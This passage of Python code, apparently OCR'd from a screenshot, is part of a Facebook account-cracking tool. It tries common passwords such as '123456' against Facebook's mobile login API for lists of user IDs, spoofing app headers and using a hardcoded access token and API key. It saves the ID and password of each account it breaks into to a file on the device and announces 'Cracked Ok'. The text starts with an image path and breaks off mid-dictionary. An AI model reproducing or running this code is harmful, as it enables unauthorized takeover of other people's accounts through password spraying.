             'X-FB-Connection-Type': 'MOBILE.LTE', 
            'X-Tigon-Is-Retry': 'False', 
            'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62', 
            'x-fb-device-group': '5120', 
            'X-FB-Friendly-Name': 'ViewerReactionsMutation', 
            'X-FB-Request-Analytics-Tags': 'graphservice', 
            'X-FB-HTTP-Engine': 'Liger', 
            'X-FB-Client-IP': 'True', 
            'X-FB-Server-Cluster': 'True', 
            'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62', 
            'Content-Length': '706'}
            url = "https://b-graph.facebook.com/auth/login"
            rp = requests.post(url,data=data,headers=head,allow_redirects=False,verify=True).json()
            if "session_key" in rp:            	
                cps.append(uid)
                break
            elif "www.facebook.com" in rp['error']['message']:
                print(f'\r\r\r\r\r\33[38;5;37m[\x1b[38;5;46mALi\033[1;97m-\x1b[38;5;46mOK\33[38;5;37m] \x1b[38;5;46m{uid} \033[1;97m● \x1b[38;5;46m{pw}\033[1;97m');os.system('espeak -a 300 " Cracked Ok id,"')
                open("/sdcard/ALi-M1-OLD-OK.txt","a").write(uid+"|"+pw+"\n")
                oks.append(uid)
                break
            else:continue
        loop+=1
    except Exception as e:time.sleep(30)
def login2(uid):
    global oks,loop,cps
    Session=requests.session()
    try:
        sys.stdout.write(f'\r\r\33[38;5;37m[\x1b[38;5;46mALi\33[38;5;37m-\x1b[38;5;46mB2\33[38;5;37m]\033[1;97m-\33[38;5;37m[\033[1;97m{loop}\33[38;5;37m]\033[1;97m-\33[38;5;37m[\x1b[38;5;46mOK\33[38;5;160m/\x1b[38;5;208mCP\33[38;5;37m]\033[1;97m-\33[38;5;37m[\x1b[38;5;46m{len(oks)}\33[38;5;160m/\x1b[38;5;208m{len(cps)}\33[38;5;37m]')
        sys.stdout.flush()
        ua = random.choice(ugen)
        ua = windows()
        for pw in ["123456","1234567","12345678","123456789","111222"]:
            data = {'adid':str(uuid.uuid4()),
            'format': 'json',
            'device_id':str(uuid.uuid4()),
            'cpl': 'true',
            'family_device_id':str(uuid.uuid4()),
            'credentials_type': 'device_based_login_password', 
            'error_detail_type': 'button_with_disabled', 
            'source': 'device_based_login', 
            'email':str(uid),
            'password':str(pw),
            'access_token': '350685531728|62f8ce9f74b12f84c123cc23437a4a32', 
            'generate_session_cookies': '1', 
            'meta_inf_fbmeta': '', 
            'advertiser_id':str(uuid.uuid4()),
            'currently_logged_in_userid': '0', 
            'locale': 'en_US',
            'client_country_code': 'US', 
            'method': 'auth.login', 
            'fb_api_req_friendly_name': 'authenticate', 
            'fb_api_caller_class': 'com.facebook.account.login.protocol.Fb4aAuthHandler', 
            'api_key': '882a8490361da98702bf97a021ddc14d'}
            head = {'User-Agent': ua,
            'Content-Type': 'application/x-www-form-urlencoded', 
            'Host': 'graph.facebook.com', 
            'X-FB-Net-HNI': '25227',
            'X-FB-SIM-HNI': '29752',